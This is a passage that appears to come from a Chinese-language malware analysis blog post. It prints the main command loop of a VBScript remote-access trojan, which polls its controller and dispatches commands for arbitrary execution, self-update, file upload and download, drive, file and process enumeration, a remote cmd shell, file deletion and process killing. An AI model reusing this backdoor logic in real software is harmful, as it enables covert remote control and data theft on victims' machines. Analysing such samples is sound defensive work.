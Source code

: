 `instance`执行后，程序进入永真循环，逻辑很清晰。

{% highlight vb %}
while true
    install
    response = ""
    response = post ("is-ready","")
    cmd = split (response,spliter)
    select case cmd (0)
    case "excecute"
          param = cmd (1)
          execute param
    case "update"
          param = cmd (1)
          oneonce.close
          set oneonce =  filesystemobj.opentextfile (installdir & installname ,2, false)
          oneonce.write param
          oneonce.close
          shellobj.run "wscript.exe //B " & chr(34) & installdir & installname & chr(34)
          wscript.quit
    case "uninstall"
          uninstall
    case "send"
          download cmd (1),cmd (2)
    case "site-send"
          sitedownloader cmd (1),cmd (2)
    case "recv"
          param = cmd (1)
          upload (param)
    case  "enum-driver"
          post "is-enum-driver",enumdriver
    case  "enum-faf"
          param = cmd (1)
          post "is-enum-faf",enumfaf (param)
    case  "enum-process"
          post "is-enum-process",enumprocess
    case  "cmd-shell"
          param = cmd (1)
          post "is-cmd-shell",cmdshell (param)
    case  "delete"
          param = cmd (1)
          deletefaf (param)
    case  "exit-process"
          param = cmd (1)
          exitprocess (param)
    case  "sleep"
          param = cmd (1)
          sleep = eval (param)
    end select
	wscript.sleep sleep
wend
{% endhighlight %}
